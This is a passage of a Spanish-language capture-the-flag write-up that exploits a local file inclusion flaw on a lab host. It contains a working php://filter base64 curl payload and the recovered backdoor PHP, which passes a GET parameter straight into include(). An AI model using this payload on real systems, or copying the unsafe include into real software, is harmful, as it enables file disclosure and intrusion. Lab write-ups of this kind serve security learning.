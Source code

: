 
Key es el parámetro, aparentemente me dirigí a la página esperando ejecutar comandos directamente.

![](/assets/img/posts/20240313-3.png)

Pero claramente no obtuve una respuesta, así que pensé en algún LFI, algo raro para mis gustos.

![](/assets/img/posts/20240313-4.png)

Pero funcionó, sabiendo esto busqué algo que me diera entrada a un [RCE](https://deephacking.tech/local-file-inclusion-lfi-pentesting-web) pero sin éxito. Así que me dio por husmear el presunto backdoor que estaba haciendo uso.

Pero al ser un archivo `.php` este sería automáticamente interpretado por la web, es decir, que no me lo iba a mostrar, así que por medio de un [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter) lo codifique a base64.

![](/assets/img/posts/20240313-6.png)

Así que lo descargué para el análisis minucioso de este backdoor.

```shell
curl 'http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php' | base64 -d > NetworkFileManagerPHP.php
```

```php
<?php
   $file = $_GET['key'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("NetworkFileManagerPHP.php");
   }
   /* VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw== */
?>
```
